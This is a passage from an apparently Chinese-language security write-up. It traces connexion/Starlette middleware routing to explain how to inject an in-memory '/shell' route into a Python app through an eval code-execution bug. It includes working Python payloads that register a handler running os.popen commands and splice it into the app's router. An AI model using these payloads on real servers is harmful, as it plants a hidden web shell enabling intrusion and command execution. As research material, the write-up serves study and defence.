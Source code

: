 然后会走到`router`类的`app`方法做路由匹配（`#1`），如果都没匹配到则调用`default`方法继续往下一个中间件走（`#2`），继续往下调用下一个中间件的`router`类的`app`方法，以此类推。

 ![](/attachments/2025-04-09-connexion-api/4eb4e5b6-3085-4409-855d-6837d9d7f738.png " =1216x652")

当前面2个负责路由的中间件（`SwaggerUIMiddleware`和`RoutingMiddleware`）都匹配不中`/shell`接口，后续会走到`AsyncASGIApp`对象的`router`属性的`app`方法做路由匹配，会先匹配中的`router.routes[0]`，因为这里`path`是空，是全路径匹配，然后递归匹配其`routes`列表（`router.routes[0].routes`）中的路由。

由于`router.routes[0].routes`是空，匹配不中会直接抛出`not_found`的404异常，并不会继续遍历后续的元素，而前面通过`eval`代码执行增加的`/shell`路由在`router.routes[1]`，所以走不到就抛出异常了。

这也就解释了前面通过`add_url_rule`增加的`/shell`路由为什么请求不到。

#### 4.3 最终构造

所以可以想办法在`AsyncASGIApp -> router.routes[0].routes`里增加一个route。

由于没找到直接动态的实例化一个`starlette/Route`对象的办法，所以通过前面`connexion.apps.asynchronous.AsyncApp.add_url_rule`方法先生成一个`Route`对象，还是生成到`AsyncASGIApp -> router.routes[1]`位置，第1步发送下面payload：

```python
__import__('sys').modules['__main__'].__dict__['app'].add_url_rule ('/shell','shell',lambda:__import__('os'). popen('id').read())
```

然后通过全局变量的方式获取到`AsyncASGIApp -> router.routes[0].routes`，将生成的`route`对象`append`进去。为了方便定位到`AsyncASGIApp`在全局字典中的位置，可以新增一个测试接口，通过调试查看。

 ![](/attachments/2025-04-09-connexion-api/9a23f596-8fc7-4565-937a-7cbf9470da8b.png " =1022x922")

可以通过下面一句话将`router.routes[1]`元素append到`router.routes[0].routes`中：

```python
[m.router for m in __import__('sys').modules['__main__'].__dict__['app']. middleware.middleware_stack if m.__class__.__name__ == 'AsyncASGIApp'] [0].routes[0].routes.append([m.router for m in __import__('sys'). modules['__main__'].__dict__['app'].middleware.middleware_stack if m.__class__.__name__ == 'AsyncASGIApp'][0].routes[-1])
```

这里取`-1`下标是适配增加多个路由的情况。  通过上面2步请求过后，再次请求`/shell`发现不是404了，证明路由增加成功了，但返回了500，后端报了下面错误：

```python
TypeError: <lambda>() takes 0 positional arguments but 1 was given
```

回看`add_url_rule`方法实现：

```python
class AsyncASGIApp(RoutedMiddleware[AsyncApi]):
    def add_url_rule(
        self,
        rule,
        endpoint: t.Optional[str] = None,
        view_func: t.Optional[t.Callable] = None, #1
        methods: t.List[str] = None,
        **options,
    ):
        self.router.add_route(rule, endpoint=view_func, name=endpoint, methods=methods)  
```
